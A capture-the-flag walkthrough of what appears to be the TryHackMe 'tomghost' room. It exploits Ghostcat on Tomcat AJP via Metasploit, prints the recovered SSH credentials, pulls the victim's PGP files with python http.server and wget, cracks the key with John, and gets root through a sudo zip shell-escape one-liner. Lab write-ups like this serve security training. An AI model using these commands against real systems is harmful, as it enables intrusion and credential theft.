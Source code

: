 # Enumeration

## Nmap

```jsx
PORT     STATE SERVICE    REASON         VERSION
22/tcp   open  ssh        syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQvC8xe2qKLoPG3vaJagEW2eW4juBu9nJvn53nRjyw7y/0GEWIxE1KqcPXZiL+RKfkKA7RJNTXN2W9kCG8i6JdVWs2x9wD28UtwYxcyo6M9dQ7i2mXlJpTHtSncOoufSA45eqWT4GY+iEaBekWhnxWM+TrFOMNS5bpmUXrjuBR2JtN9a9cqHQ2zGdSlN+jLYi2Z5C7IVqxYb9yw5RBV5+bX7J4dvHNIs3otGDeGJ8oXVhd+aELUN8/C2p5bVqpGk04KI2gGEyU611v3eOzoP6obem9vsk7Kkgsw7eRNt1+CBrwWldPr8hy6nhA6Oi5qmJgK1x+fCmsfLSH3sz1z4Ln
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOscw5angd6i9vsr7MfCAugRPvtx/aLjNzjAvoFEkwKeO53N01Dn17eJxrbIWEj33sp8nzx1Lillg/XM+Lk69CQ=
|   256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGqgzoXzgz5QIhEWm3+Mysrwk89YW2cd2Nmad+PrE4jw

53/tcp   open  tcpwrapped syn-ack ttl 61

8009/tcp open  ajp13      syn-ack ttl 61 Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS

8080/tcp open  http       syn-ack ttl 61 Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Apache Tomcat/9.0.30
```

- Check cve of 8009

```jsx
┌──(kali㉿kali)-[~/CTF/tryhackme/tomghost]
└─$ searchsploit ajp
---------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                            |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
AjPortal2Php - 'PagePrefix' Remote File Inclusion                                                                                                         | php/webapps/3752.txt
Apache Tomcat - AJP 'Ghostcat File Read/Inclusion                                                                                                         | multiple/webapps/48143.py
Apache Tomcat - AJP 'Ghostcat' File Read/Inclusion (Metasploit)                                                                                           | multiple/webapps/49039.rb
---------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

- we found ajp metasploit

![image.png](attachment:7ea4f834-46d5-4534-bae2-a183c8e32e07:image.png)

- use msfconsole and search ajp
- use 0
- set up rhosts and exploit

![image.png](attachment:bc21e799-9718-4c0f-9d42-809303d383d5:image.png)

```jsx
skyfuck:8730281lkjlkjdqlksalks
```

## SSH (22)

- use the above credential and login via ssh

![image.png](attachment:6674aa4d-c39e-4e76-83eb-d1f6c0255ff3:image.png)

```jsx
find / -type f -name user.txt 2> /dev/null
```

- use this cmd to find user.txt file

```jsx
skyfuck@ubuntu:~$ ls
credential.pgp  tryhackme.asc
skyfuck@ubuntu:~$ find / -type f -name user.txt 2> /dev/null
/home/merlin/user.txt
skyfuck@ubuntu:~$ cat /home/merlin/user.txt
THM{GhostCat_1s_so_cr4sy}
```

# Post Exploitation

```jsx
skyfuck@ubuntu:~$ ls
credential.pgp  tryhackme.asc
skyfuck@ubuntu:~$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 ...
```

- open webshell on skyfuck
- download from our kali

```jsx
┌──(kali㉿kali)-[~/CTF/tryhackme/tomghost]
└─$ wget http://10.10.88.153:8000/tryhackme.asc
-----------------------------------------------
┌──(kali㉿kali)-[~/CTF/tryhackme/tomghost]
└─$ wget http://10.10.88.153:8000/credential.pgp
```

First, let’s convert the key into a hash with this command:

```jsx
gpg2john tryhackme.asc > hash.txt
```

Then, start cracking it with John.

```jsx
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

![image.png](attachment:9c07f907-e169-4c7e-a34d-fde0e5006d10:image.png)

```jsx
alexandru 
```

Now that I have the decrypted password, I can decrypt credential.pgp by using:

```jsx
gpg --import tryhackme.asc
gpg -d credential.pgp
```

- `-import` to import the key.
- `d` to decrypt the .pgp file.

```jsx
┌──(kali㉿kali)-[~/CTF/tryhackme/tomghost]
└─$ gpg --import tryhackme.asc
gpg: /home/kali/.gnupg/trustdb.gpg: trustdb created
gpg: key 8F3DA3DEC6707170: public key "tryhackme <stuxnet@tryhackme.com>" imported
gpg: key 8F3DA3DEC6707170: secret key imported
gpg: key 8F3DA3DEC6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: Total number processed: 2
gpg:               imported: 1
gpg:              unchanged: 1
gpg:       secret keys read: 1
gpg:   secret keys imported: 1
                                                                                                                                                                                            
┌──(kali㉿kali)-[~/CTF/tryhackme/tomghost]
└─$ gpg -d credential.pgp
gpg: encrypted with elg1024 key, ID 61E104A66184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j 
```

- we login ssh with merlin

It seems we need to use `sudo /zip` to access higher privileges.

```jsx
find / -perm -u=s -type f 2>/dev/null
```

Look for files with the SUID bit, which allows us to run files with elevated privileges beyond the current user.

![image.png](attachment:8f5a563d-5c6a-4782-982e-b36e346b7c33:image.png)

![image.png](attachment:49f9dbd4-d7af-42cf-a0bf-e09d6b2b5592:image.png)

- we can find that in GTFOBins
- we will use that commands

```jsx
TF=$(mktemp -u)
sudo /usr/bin/zip $TF /etc/hosts -T -TT 'sh #'
```

![image.png](attachment:123bd93f-5d08-43e7-9ea4-fe39302c31e8:image.png)

Finally, we got the root.

```jsx
# cd /root
# ls
root.txt  ufw
# cat root.txt  
THM{Z1P_1S_FAKE}
```
